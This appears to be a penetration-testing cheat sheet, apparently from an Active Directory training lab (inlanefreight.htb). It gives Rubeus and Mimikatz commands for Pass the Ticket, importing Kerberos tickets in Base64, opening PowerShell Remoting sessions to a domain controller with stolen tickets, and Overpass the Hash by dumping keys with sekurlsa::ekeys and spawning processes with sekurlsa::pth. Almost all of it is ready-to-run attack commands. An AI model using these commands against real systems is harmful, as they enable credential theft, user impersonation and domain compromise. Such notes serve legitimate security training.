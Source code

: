 **Rubeus - Pass the Ticket**
````
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
Note that now it displays Ticket successfully imported!.
````
````
Another way is to import the ticket into the current session using the .kirbi file from the disk.
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
````
````
Pass the Ticket - Base64 Format
Convert .kirbi to Base64 Format
> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
> Rubeus.exe ptt /ticket:<base64>
````

**Mimikatz - Pass the Ticket**
````
# privilege::debug
# kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
````

**Pass The Ticket with PowerShell Remoting (Windows)**

PowerShell Remoting allows us to run scripts or commands on a remote computer. 
````
- Mimikatz -
# privilege::debug
# kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
> powershell
> Enter-PSSession -ComputerName DC01
````
````
- Rubeus -
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
> Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
> powershell
> Enter-PSSession -ComputerName DC01
````

**Pass the Key aka. OverPass the Hash**

The traditional Pass the Hash (PtH) technique involves reusing an NTLM password hash that doesn't touch Kerberos. The Pass the Key aka. OverPass the Hash approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full Ticket Granting Ticket (TGT). 

**Mimikaz**
````
- Extract Kerberos keys -
# privilege::debug
# sekurlsa::ekeys

Now that we have access to the AES256_HMAC and RC4_HMAC keys, we can perform the OverPass the Hash aka. Pass the Key

# privilege::debug
# sekurlsa::pth /domain:<domain> /user:<user> /ntlm:<rc4_hmac_nt>
This will create a new cmd.exe window that we can use to request access to any service we want in the context of the target user.
````
